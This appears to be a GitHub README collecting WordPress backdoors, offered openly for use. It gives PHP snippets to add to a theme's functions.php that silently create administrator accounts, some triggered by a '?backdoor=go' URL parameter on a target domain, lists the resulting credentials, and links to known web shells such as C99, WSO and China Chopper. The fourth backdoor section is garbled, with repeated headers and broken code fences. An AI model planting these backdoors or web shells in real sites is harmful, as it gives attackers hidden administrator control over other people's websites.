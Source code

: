 ![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/link-in-bio-backdoor-and-web.png?raw=true)

## Backdoor-01 (add to theme functions.php)






```bash

function wpb_admin_account(){
$user = ‘minhaz’;
$pass = ‘pass’;
$email = ’email@email.em’;
if ( !username_exists( $user ) && !email_exists( $email ) ) {
$user_id = wp_create_user( $user, $pass, $email );
$user = new WP_User( $user_id );
$user->set_role( ‘administrator’ );
}
}
add_action(‘init’,’wpb_admin_account’);
```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Screenshot_1.png?raw=true)
## Backdoor-02 (add to theme functions.php)






```bash

<?php
add_action(‘wp_head’, ‘WordPress_backdoor’);
function WordPress_backdoor() {
If ($_GET[‘backdoor’] == ‘go’) {
require(‘wp-includes/registration.php’);
If (!username_exists(‘backdooradmin’)) {
$user_id = wp_create_user(‘backdooradmin’, ‘Pa55W0rd’);
$user = new WP_User($user_id);
$user->set_role(‘administrator’);
}
}
}
?>

```
https://www.targetdomain.com?backdoor=go
- User: backdooradmin
 - Password: Pa55W0rd




## Backdoor-03 (add to theme functions.php)






```bash

add_action( 'wp_head', 'my_backdoor' );

function my_backdoor() {
    if ( md5( $_GET['backdoor'] ) == '34d1f91fb2e514b8576fab1a75a89a6b' ) {
        require( 'wp-includes/registration.php' );
        if ( !username_exists( 'cyber_insect99' ) ) {
            $user_id = wp_create_user( 'cyber_insect99', 'pass' );
            $user = new WP_User( $user_id );
            $user->set_role( 'administrator' ); 
        }
    }
}


```
https://www.targetdomain.com?backdoor=go
- User: cyber_insect99
 - Password: pass

## Backdoor-04 (add to theme functions.php)






```bash

add_action( 'wp_head', 'my_backdoor' );
## Backdoor-03 (add to theme functions.php)






```bash

## Backdoor-03 (add to theme functions.php)






```bash

$new_user = new Wp_User(wp_create_user('user','password'));
$new_user->set_role('administrator');




```
- Then go to use option on wordpress deshboard the you will see  a new user .
- User: user
 - Password: password


# Web Shell
# 
![Logo](https://github.com/jco666/alfa-shell/raw/master/readme_1.png)
 - [Alpha Web Shell ](https://github.com/nicolauns/alfa-shell )
 - [ASPXSpy Web Shell:](https://github.com/tennc/webshell/blob/master/net-friend/aspx/aspxspy.aspx)
 - [C99 Backdoor Web Shell](https://github.com/tennc/webshell/tree/master/php/PHPshell/c99shell)
 - [China Chopper Shell](https://github.com/tennc/webshell/tree/master/caidao-shell)
 - [ IndoXploit Shell (IDX Shell) ](https://github.com/linuxsec/indoxploit-shell)
 - [WSO Web Shell](https://github.com/tennc/webshell/tree/master/php/wso)
  - [B374k PHP Shell](https://github.com/b374k/b374k)
   - [r57 Shell](https://github.com/tennc/webshell/tree/master/138shell/R)
